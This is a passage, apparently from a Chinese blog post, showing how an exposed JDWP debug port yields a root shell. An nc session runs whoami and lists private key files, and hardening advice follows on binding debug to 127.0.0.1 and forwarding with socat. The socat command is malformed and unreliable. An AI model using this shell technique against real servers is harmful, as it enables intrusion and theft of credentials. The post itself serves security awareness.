 服务器上端口已经开启：

```
[root@yd-dev-api server]# sudo lsof -i:7777
COMMAND  PID USER   FD   TYPE    DEVICE SIZE/OFF NODE NAME
ncat    7617 root    3u  IPv6 292856080      0t0  TCP *:cbt (LISTEN)
ncat    7617 root    4u  IPv4 292856081      0t0  TCP *:cbt (LISTEN)
```

连接上去：

```bash
➜  jdwp-shellifier (master|✔) nc 221.221.221.221 7777
pwd
/root
whoami
root
ls -alh
total 218M
dr-xr-x---. 18 root root 4.0K Aug 10 11:05 .
dr-xr-xr-x. 28 root root 4.0K Jul 19 17:52 ..
-rw-r--r--   1 root root   26 May 11 13:57 12.txt
-rwxr-xr-x   1 root root 1.7K Jan 30  2018 214468302700277.key
-rwxr-xr-x   1 root root 3.3K Jan 30  2018 214468302700277.pem
```



# 远程调试的建议

一、线上不能开启debug，对服务器性能有影响。

二、关闭对外远程debug的端口

```bash
sudo lsof -i:<port>
```

查找到对应的进程， 然后修改配置，**重启tomcat**

三、远程debug步骤：

1. tomcat 开启调试: 

   ```bash
   export CATALINA_OPTS="-server -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=127.0.0.1:8399"
   ```

   **注意必须绑定到127.0.0.1**

2. 安装socat

   ```bash
   sudo yum install -y socat
   ```

3. 服务器安装socat进行转发:

   ```bash
   socat TCP4-LISTEN:5005forkrange=0.0.0.0/32 TCP4:127.0.0.1:8399 | hostname -i
   ```
